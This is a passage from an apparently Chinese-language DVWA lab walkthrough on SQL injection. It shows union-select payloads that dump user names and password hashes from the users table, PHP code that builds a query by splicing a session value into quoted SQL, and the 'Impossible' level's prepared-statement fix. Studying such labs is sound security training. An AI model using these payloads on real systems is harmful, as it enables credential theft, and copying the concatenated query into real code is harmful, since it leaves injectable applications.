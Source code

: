 ```payload
id=-1 union select 1,(SELECT GROUP_CONCAT(user,password SEPARATOR 0x3c62723e) FROM users)&Submit=Submit
```



![img](https://image.3001.net/images/20200527/1590584240851.png)



## High

主要代码如下：





php

```php
$id = $_SESSION[ 'id' ];

$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

从 SESSION 获取 id 值，使用单引号拼接。因为 SESSION 获取值的特点，这里不能直接在当前页面注入，

input 的输入框内容如下：





none

```none
-2' union select 1,(SELECT GROUP_CONCAT(user,password SEPARATOR 0x3c62723e) FROM users)#
```



![img](https://image.3001.net/images/20200527/15905847152255.png)



## Impossible

这个级别的主要防护代码如下：





php

```php
// Anti-CSRF token 防御 CSRF 攻击
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


$id = $_GET[ 'id' ];
// 检测是否是数字类型
if(is_numeric( $id )) {
  // 预编译
  $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
  $data->bindParam( ':id', $id, PDO::PARAM_INT );
  $data->execute();
  $row = $data->fetch();
```
